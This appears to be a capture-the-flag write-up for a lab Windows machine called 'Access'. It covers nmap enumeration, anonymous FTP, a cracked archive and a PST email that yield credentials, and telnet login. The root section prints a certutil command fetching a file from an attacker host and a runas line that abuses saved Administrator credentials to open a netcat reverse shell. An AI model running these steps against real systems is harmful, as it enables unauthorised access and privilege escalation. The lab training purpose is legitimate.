








# Access
## Enumeration
- `nmap`
```
└─$ nmap -sC -sV 10.10.10.98    
Starting Nmap 7.93 ( https://nmap.org ) at 2023-06-11 14:20 BST
Nmap scan report for 10.10.10.98 (10.10.10.98)
Host is up (0.094s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: PASV failed: 425 Cannot open data connection.
| ftp-syst: 
|_  SYST: Windows_NT
23/tcp open  telnet  Microsoft Windows XP telnetd
| telnet-ntlm-info: 
|   Target_Name: ACCESS
|   NetBIOS_Domain_Name: ACCESS
|   NetBIOS_Computer_Name: ACCESS
|   DNS_Domain_Name: ACCESS
|   DNS_Computer_Name: ACCESS
|_  Product_Version: 6.1.7600
80/tcp open  http    Microsoft IIS httpd 7.5
|_http-title: MegaCorp
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp

Host script results:
|_clock-skew: -29s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 20.22 seconds
```
- Web Server


## Foothold/User
- Let's enumerate `ftp`
  - Traverse directories and download everything



- We see `Access Control` archive
  - I tried unzipping with `unzip`, but had no success
  - Using `7z` was more successful, since it asked for password
  - So now we need to look for password





- Let's check `backup` file
  - It's a `Microsoft Access Database`
  - We can use `mdbtools`
    - `sudo apt install mdbtools`
  - List the tables



- We see `auth_-_user` table
  - Let's dump it


- We can try each password to unzip the `Access Control` archive



- After unzipping we get a `pst` file, which is `Microsoft Outlook email folder`
  - I used `readpst`
  - `sudo apt install pst-utils`


- It's a plain text file
  - Just open it with  `less 'Access Control.mbox'`
  - We see an email with creds



- We have open `telnet` port
  - Let's connect with obtained creds


## Root
- Let's enumerate for privesc
  - We find a interesting `lnk` file
  - It runs `runas` with `savecred` options
  - Let's check `cmdkey` for saved credentials




- We see that we have `ACCESS\Administrator`'s credentials saved
  - Let's use them and get our root
  - Download nc: `certutil -urlcache -f http://10.10.16.3:8000/shell.ps1 shell.ps1`
  - And start reverse shell: `runas /user:ACCESS\Administrator /savecred "nc.exe 10.10.16.3 6666 -e cmd"`




- Check [0xdf's blog](https://0xdf.gitlab.io/2019/03/02/htb-access.html) for other privesc paths